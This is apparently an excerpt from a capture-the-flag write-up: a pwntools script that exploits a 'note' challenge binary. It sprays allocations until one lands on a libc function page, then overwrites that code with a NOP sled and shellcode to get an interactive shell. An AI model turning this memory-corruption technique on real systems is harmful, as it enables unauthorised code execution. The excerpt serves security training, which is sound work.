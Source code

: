 ```py
io.send(''.join([f'4\n{i}\n' for i in range(256)]))
```

When we piece it all together:
```py
note = ELF("note")
libc = ELF("libc.so.6")

# remote libc base, found via gdb. due to no ASLR it is constant.
libc_base = 0xf7d7d000
libc_addrs = {}

for sym in note.symbols:
    # Remove symbols we cannot get to.
    if sym in libc.symbols and sym not in ['setvbuf', 'sleep', '__libc_start_main']:  
        addr = libc_base + libc.symbols[sym]
        print(f"{sym}:{hex(addr)}")
        libc_addrs[sym] = addr

page_addrs = {str(hex((addr & ~0xfff))[2:]): (sym, addr) for sym, addr in libc_addrs.items()}

while True:
    io = start()
    try: 
        while True:
            io.send(b'1\n' * 257)
            # Sometimes crashed randomly in remote...
            output = io.recvuntil('memory sults', timeout=15) 
            if not output:
                raise EOFError()

            matches = re.findall(
                r"note created\. no (\d+)\s*\n \[([0-9a-f]+)\]", 
                output.decode()
            )

            # Parse addresses
            for no, addr in matches:
                # Found a function address
                if addr in page_addrs:
                    success(f"Found function page: {addr} {no} {page_addrs[addr]}")

                    # Send write to the note.
                    io.sendline(b'2')
                    io.sendline(no)

                    # Find the offset.
                    func_addr = page_addrs[addr][1]
                    offset = func_addr & 0xfff
                    success(f"NOP sled size is {offset}")

                    # Send the shellcode
                    io.sendline(b'\x90' * offset + shellcode)
                    io.interactive()

                # Delete the other 256  
                io.send(''.join([f'4\n{i}\n' for i in range(256)]))
    except EOFError:
        print(f"Crashed.. Addr index {index}")
        io.close()
```
